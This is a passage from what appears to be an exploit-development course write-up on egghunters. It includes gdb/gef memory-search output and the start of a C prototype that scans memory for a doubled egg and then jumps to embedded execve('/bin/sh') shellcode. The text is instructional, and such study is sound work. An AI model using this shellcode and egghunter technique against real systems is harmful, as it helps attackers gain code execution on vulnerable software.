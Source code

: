 Let's say we have an egghunter program that used an egg with the bytes `DEAD`. Using `gef` for `gdb`, if we search for `DEAD` in memory we find a copy in the `.text` section at address `0x8048531` and another one in the stack at address `0xbffff1a8`. The 2nd one in the stack is the egg.
```
[+] Searching 'DEAD' in memory
[+] In '/home/slemire/slae32/assignment3/egghunter_c'(0x8048000-0x8049000), permission=r-x
  0x8048531 - 0x8048535  →   "DEAD[...]" 
  0x804853b - 0x804853f  →   "DEAD[...]" 
  0x8048545 - 0x8048549  →   "DEAD[...]" 
[+] In '/home/slemire/slae32/assignment3/egghunter_c'(0x8049000-0x804a000), permission=r-x
  0x8049531 - 0x8049535  →   "DEAD[...]" 
  0x804953b - 0x804953f  →   "DEAD[...]" 
  0x8049545 - 0x8049549  →   "DEAD[...]" 
[+] In '[stack]'(0xbffdf000-0xc0000000), permission=rwx
  0xbffff1a8 - 0xbffff1ac  →   "DEAD[...]" 
  0xbffff1cc - 0xbffff1d0  →   "DEAD[...]" 
  0xbffff1d0 - 0xbffff1d4  →   "DEAD[...]" 
[...]
gef➤  search-pattern DEADDEAD
[+] Searching 'DEADDEAD' in memory
[+] In '[stack]'(0xbffdf000-0xc0000000), permission=rwx
  0xbffff1cc - 0xbffff1d4  →   "DEADDEAD[...]" 
```

To avoid matching the string in the code itself, the egghunter code will look for the egg repeated twice. If the egg is only found once, the code assumes this is the string from the `.text` section, ignores it and keeps searching.

### C prototype
--------------

To start with, a C prototype was created to experiment with the egghunter concept. In this example, the egg is `DEAD` (4 bytes). The code is not optimized for speed and as such will start looking in memory at address `0x0`. There are probably better ways to optimize this, like start searching at addresses higher than the `.text` section, but these addresses could vary if ASLR is used.

The following code shows the C prototype for the egghunter.
```c
#include <errno.h>
#include <stdio.h>
#include <unistd.h>

int main()
{
        char egg[4] = "DEAD";
        char buffer[1024] = "DEADDEAD\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";
        unsigned long addr = 0x0;
        int r;

        while (1) {
                // Try to read 8 bytes ahead of current memory pointer (8 bytes because the egg will be repeated twice)
                r = access(addr+8, 0);
                // If we don't get an EFAULT, we'll start checking for the egg
                if (errno != 14) {
                        // Need to check egg twice, so we don't end up matching the egg from our own code
                        if (strncmp(addr, egg, 4) == 0 && strncmp(addr+4, egg, 4) == 0) {
                                char tmp[32];
                                memset(tmp, 0, 32);
                                strncpy(tmp, addr, 8);
                                printf("Egg found at: %ul %s, jumping to shellcode (8 bytes ahead of egg address)...\n", addr, tmp);
```